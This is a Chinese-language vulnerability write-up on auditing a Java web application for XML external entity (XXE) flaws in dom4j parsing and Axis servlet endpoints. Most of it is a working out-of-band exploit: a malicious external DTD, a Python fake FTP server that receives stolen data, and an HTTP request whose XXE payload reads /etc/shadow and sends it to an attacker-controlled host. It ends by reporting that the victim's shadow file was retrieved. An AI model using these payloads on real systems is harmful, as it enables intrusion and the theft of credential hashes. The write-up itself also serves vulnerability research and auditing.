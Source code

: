 ```yaml
---
title: "XXE 审计与利用思路"
id: zhfly3595
---
```


## XXE 审计与利用思路

第一处出现在系统使用的org.dom4j.DocumentHelper调用的类函数下。

在源码中搜索关键字DocumentHelper.parseText

得到：

```
\xxx\***\***.java 
Line 303:    document = DocumentHelper.parseText(xml);

\xxx***\XmlParser.java

Line 51:    Document doc = DocumentHelper.parseText(xmlStr);

\xxx******Task.java

Line 350:    Document document = DocumentHelper.parseText(result);

\xxx******Action.java

Line 237:    Document document = DocumentHelper.parseText(mapDataForOut);

\xxx***\xxxAction.java

Line 259:    Document document = DocumentHelper.parseText(mapDataForOut);

\xxx***\xxx.java

Line 120:    Document doc = DocumentHelper.parseText(policyXml.replaceAll("_lnx", “”));

Line 125:    doc = DocumentHelper.parseText(node.asXML());

\xxx***tion.java

Line 109:    Document doc = DocumentHelper.parseText(xmlStr);

\xxx***.java

Line 58:    doc = DocumentHelper.parseText(xml); // 将字符串转为XML

\xxx***.java

Line 92:    doc = DocumentHelper.parseText(xml);

Line 97:    oldDoc = DocumentHelper.parseText(vaildXml);

\xxx***ObjConverter.java

Line 173:     Document document = DocumentHelper.parseText(xml);

\xxx***.java

Line 949:     doc = DocumentHelper.parseText(infor.getContent());

\xxx***Utility.java

Line 1203:     Document doc = DocumentHelper.parseText(result);

\xxx***xxxService.java

Line 177:     Document doc = DocumentHelper.parseText(requestHeader);

\xxx***\EventParser.java

Line 83:    Document doc = DocumentHelper.parseText(xmlStr);

Line 185:    Document doc = DocumentHelper.parseText(xmlStr);

Line 229:    Document doc = DocumentHelper.parseText(xmlStr);

Line 306:    DocumentHelper.parseText(contentXml)).replaceAll("<", “&lt;”).replaceAll(">", “&gt;”).replaceAll("==amp;",

\xxx***\XMLMessageUtil.java

Line 24:    doc = DocumentHelper.parseText(xml);

Line 131:    tempDoc = DocumentHelper.parseText(xml);

Line 224:    document = DocumentHelper.parseText("<a><b></b></a>");

\xxx***\XmlParser.java

Line 51:    Document doc = DocumentHelper.parseText(xmlStr); `\xxx***.java

Line 244:    Document doc = DocumentHelper.parseText(xmlStr);` 
```

其中，`\xxx\***\XMLMessageUtil.java`

![image](../img/047773fc10cbff33e1680fd358c55cfb.png)

代码中 使用org.dom4j.DocumentHelper.parseTest解析XML文件

第二处，发现位置是在查看web.xml文件中AxisServlet的servlet-mapping配置，发现URL地址包含以下路径或后缀就可被攻击利用

```
***\WebRoot\WEB-INF\web.xml 
xxx\***\WebRoot\WEB-INF\web.xml
<servlet-mapping>
<servlet-name>AxisServlet</servlet-name>
       <url-pattern>/servlet/AxisServlet</url-pattern>
   </servlet-mapping>  
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>*.jws</url-pattern>
   </servlet-mapping>
   <servlet-mapping>
       <servlet-name>AxisServlet</servlet-name>
       <url-pattern>/services/*</url-pattern>
   </servlet-mapping> 
```

在通过访问以下URL即可访问到AxisServlet服务，可对其进行XXE漏洞攻击。

```
https://www.0-sec.org/xxx/servlet/AxisServlet
https://www.0-sec.org/***/servlet/AxisServlet 
```

### poc

0x1:

在复现时由于目标主机无法访问外网，所以需要在本地主机上搭建测试环境，具体的复现过程如下（嗯额这里感谢一下同事）：

*   1）新建目录xxe_test，复制下面文件放入

test.dtd

```
<!ENTITY % param3 "<!ENTITY &#x25; exfil SYSTEM 'ftp://ip/%data3;'>"> 
```

*   2)在xxe_test目录下运行如下命令，监听8080端口（检查防火墙是否开放该端口）

Python -m SimpleHTTPServer 8080

*   3)运行以下脚本，启动ftp服务器（检查防火墙是否开放21端口）

> Python xxe-ftp.py

```
#!/usr/env/python
from __future__ import print_function
import socket

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

s.bind((‘0.0.0.0’,21))

s.listen(1)

print(‘XXE-FTP listening ‘)

conn,addr = s.accept()

print(‘Connected by %s’,addr)

conn.sendall(‘220 Staal XXE-FTP\r\n’)

stop = False

while not stop:

dp = str(conn.recv(1024))

if dp.find(“USER”) > -1:

conn.sendall(“331 password please - version check\r\n”)

else:

conn.sendall(“230 more data please!\r\n”)

if dp.find(“RETR”)==0 or dp.find(“QUIT”)==0:

stop = True

if dp.find(“CWD”) > -1:

print(dp.replace(‘CWD ‘,’/’,1).replace(’\r\n’,’’),end=’’)

else:

print(dp) `conn.close()

s.close()` 
```

*   4)发送以下报文：

```
POST /xxx/*** HTTP/1.1
Host: www.0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: application/json, text/javascript, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: https://target_ip/xxx/***.jsp
ContentType: pplication/x-www-form-urlencoded
Cookie: JSESSIONID=WwV5E_ZpZVWhnIKEaFuuphs1.localhost; ops.cookie.principal=xxxxx
DNT: 1
Connection: close
Content-Type: text/xml
Content-Length: 159 `<?xml version=“1.0”?>

<!DOCTYPE r [

<!ENTITY % data3 SYSTEM “file:///etc/shadow”>

<!ENTITY % sp SYSTEM “http://Your_IP/test.dtd”>

%sp;

%param3;

%exfil;

]>` 
```

![image](../img/57d18e83b2000ebe2d1ac3aff789a343.png)

**漏洞截图**：

0x1:

成功获取到受害主机的/etc/shadow文件

![image](../img/e70506587da99034f03c8cd61bfdccf0.png)